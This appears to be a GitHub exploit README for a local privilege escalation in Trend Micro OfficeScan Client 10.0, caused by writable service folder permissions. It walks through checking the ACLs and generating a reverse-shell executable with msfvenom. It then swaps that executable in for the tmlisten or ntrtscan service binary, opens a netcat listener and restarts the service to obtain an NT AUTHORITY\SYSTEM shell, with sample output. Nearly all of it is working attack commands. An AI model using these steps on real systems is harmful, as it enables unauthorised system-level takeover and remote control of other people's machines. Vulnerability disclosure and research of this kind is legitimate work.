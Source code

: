 <a target="_blank" href="https://img.shields.io/badge/plateform-windows-blue.svg" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/plateform-windows-blue.svg">
</a>
<a target="_blank" href="https://img.shields.io/badge/version-10.0-yellow" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/version-10.0-yellow">
</a>
<a href="" rel="nofollow">
    <img src="https://img.shields.io/badge/service-acl-red">
</a>

```bash
#########################################################################
#                                                                       #
#  Exploit Title: Trend Micro OfficeScan Client 10.0 - ACL Service LPE  #
#  Date: 2023/05/04                                                     #
#  Exploit Author: msd0pe                                               #
#  Vendor Homepage: https://www.trendmicro.com                          #
#  My Github: https://github.com/msd0pe-1                               # 
#                                                                       # 
#########################################################################
```

<h3>Trend Micro OfficeScan Client:</h3>
Versions =< 10.0 contains wrong ACL rights on the OfficeScan client folder which allows attackers to escalate privileges to the system level through the services. This vulnerabily does not need any privileges access.

<h2>Verify the folder rights:</h2>

```bash
    > icacls "C:\Program Files (x86)\Trend Micro\OfficeScan Client"

    C:\Program Files (x86)\Trend Micro\OfficeScan Client NT SERVICE\TrustedInstaller:(F)
                                                         NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                                                         NT AUTHORITY\SYSTEM:(F)
                                                         NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                                                         BUILTIN\Administrators:(F)
                                                         BUILTIN\Administrators:(OI)(CI)(IO)(F)
                                                         BUILTIN\Users:(F)
                                                         BUILTIN\Users:(OI)(CI)(IO)(F)
                                                         CREATOR OWNER:(OI)(CI)(IO)(F)
                                                         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                                                         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)
```

<h2>Get informations about the services:</h2>

```bash
    > sc qc tmlisten

    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: tmlisten
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : "C:\Program Files (x86)\Trend Micro\OfficeScan Client\tmlisten.exe"
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : OfficeScan NT Listener
            DEPENDENCIES       : Netman
                               : WinMgmt
            SERVICE_START_NAME : LocalSystem
```

OR

```bash
    > sc qc ntrtscan

    SERVICE_NAME: ntrtscan
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : "C:\Program Files (x86)\Trend Micro\OfficeScan Client\ntrtscan.exe"
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : OfficeScan NT RealTime Scan
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem
```

<h2>Generate a reverse shell:</h2>

```bash
    > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o tmlisten.exe
 ```

OR

```bash
    > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o ntrtscan.exe
```

<h2>Upload the reverse shell to C:\Program Files(x86)\Trend Micro\OfficeScan Client\tmlisten.exe OR C:\Program Files(x86)\Trend Micro\OfficeScan Client\ntrtscan.exe</h2>


<h2>Start listener</h2>

```bash
    > nc -lvp 4444
```

<h2>Reboot the service/server</h2>

```bash
    > sc stop tmlisten
    > sc start tmlisten
```
OR

```bash
    > sc stop ntrtscan
    > sc start ntrtscan
```

OR

```bash
    > shutdown /r
```

<h2>Enjoy !</h2>

```bash
    192.168.1.102: inverse host lookup failed: Unknown host
    connect to [192.168.1.101] from (UNKNOWN) [192.168.1.102] 51309
    Microsoft Windows [Version 10.0.19045.2130]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami

    nt authority\system
```